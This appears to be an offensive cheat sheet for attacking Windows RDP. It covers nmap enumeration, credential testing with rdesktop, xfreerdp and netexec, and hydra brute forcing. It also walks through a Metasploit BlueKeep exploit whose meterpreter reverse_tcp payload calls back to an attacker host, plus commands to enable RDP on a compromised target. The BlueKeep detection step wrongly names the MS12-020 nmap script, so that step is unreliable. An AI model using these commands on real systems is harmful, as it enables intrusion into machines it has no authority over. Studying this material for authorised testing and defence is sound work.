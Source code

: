 **RDP** (Remote Desktop Protocol) is a proprietary protocol developed by Microsoft to allow users to remotely connect to and interact with a Windows-based machine using a graphical interface. It operates on port **3389** by default and supports remote desktop, file transfer, and application sharing.


## Check if RDP is Enabled  
Use tools like `nmap` to scan for open RDP ports and confirm the service.  

```bash
nmap -p 3389 --script=rdp-enum-encryption <target>
```

## Testing RDP with Credentials  
`rdesktop`, `xfreerdp`, or `crackmapexec` can be used to validate login credentials for RDP.

**rdesktop**
```bash
rdesktop -u <username> -p <password> <target_ip>
```

**xfreerdp**
```bash
xfreerdp /u:<username> /p:<password> /v:<target_ip>
```

**netexec**
```bash
netexec rdp <target_ip> -u <username> -p <password>
```

## Brute Force Attack on RDP  
`hydra` can be used to brute force RDP credentials.

```bash
hydra -l <username> -P <password_list> rdp://<target_ip>
```

## BlueKeep
**BlueKeep** is a critical vulnerability in the Remote Desktop Protocol (RDP) service of older Windows systems, identified as CVE-2019-0708. This exploit enables unauthenticated attackers to execute remote code on unpatched systems, potentially allowing full control over the affected machine.

#### Affected Systems
- Windows Server Versions:
	- Windows Server 2003 (if RDP is manually enabled)
	- Windows Server 2008 / 2008 R2
- Windows OS Versions:
	- Windows XP (if RDP is enabled)
    - Windows Vista
    - Windows 7

*Note: Systems updated with the May 2019 security patch or later are protected from BlueKeep. Additionally, systems with Network Level Authentication (NLA) enabled are more secure.*

#### Detection

Use Nmap to check for BlueKeep vulnerability:

```bash
nmap -p 3389 --script rdp-vuln-ms12-020 <target_ip>
```

#### **Exploitation**

Once the target is confirmed vulnerable, you can exploit BlueKeep using **Metasploit**:

```bash
msfconsole
search bluekeep
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
# Configure the exploit
set RHOST <target_ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT <port>
exploit
```


## Enabling RDP

The following commands enable RDP and allows traffic through the firewall.

```bash
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```

#### Metasploit
To enable RDP on a Windows target, you can use the **Metasploit module** `windows/manage/enable_rdp`.
 1. Gain access to the target machine using a Meterpreter session.
 2. Use the `windows/manage/enable_rdp` module.
```bash
use windows/manage/enable_rdp
set RHOST <target_ip>
set SESSION <seesion_id>
set RPORT 3389
run
```